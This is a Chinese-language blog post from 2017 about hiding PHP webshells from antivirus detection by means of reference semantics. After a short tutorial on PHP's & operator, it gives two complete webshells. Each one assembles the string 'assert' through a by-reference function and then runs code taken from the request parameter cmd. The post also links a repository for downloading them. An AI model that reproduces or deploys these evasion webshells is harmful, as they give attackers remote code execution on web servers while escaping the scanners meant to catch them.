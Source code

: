 ```yaml
---
layout:     post
title:      php中&引用免杀webshell
date:       2017-04-25
summary:    php中&引用免杀webshell
categories: web
tags:
 - php
 - 引用
 - 免杀
---
```


### 0x00 php中的&

```
1.函数的参数引用
<?php
function test(&$a){ 
    $a=$a+100; 
    } 
    $b=1; 
    echo $b;//输出１ 
    test($b);   //这里$b传递给函数的其实是$b的变量内容所处的内存地址,通过在函数里改变$a的值就可以改变$b的值了 
    echo "<br>"; 
    echo $b;//输出101
?>

2.函数的返回引用
<?php
function &test()
{ 
    static $b=0;//申明一个静态变量 
    $b=$b+1; 
    echo $b; 
    return $b; 
}

$a=test();//这条语句会输出$b的值为１ 
$a=5; 
$a=test();//这条语句会输出$b的值为2
$a=&test();//这条语句会输出$b的值为3,这句相当于$a=&$b;
$a=5; 
$a=test();//这条语句会输出$b的值为6
?>

理解参考:
http://www.cnblogs.com/thinksasa/p/3334492.html
```

### 0x01 Detail

#### a)利用函数的参数引用免杀

```
<?php
function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($_GET[cmd]);
```

#### b)利用函数的返回引用免杀

```
<?php
class talker{
    public $data = 'Hi';
    public function & get(){
        return $this->data;
    }
}

$aa = new talker();
$d = &$aa->get();
$d = $_GET[cmd];

function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($aa->data);

```

本文代码下载<br>
<a href="https://github.com/3xp10it/xwebshell/tree/master/php/%26">download</a>

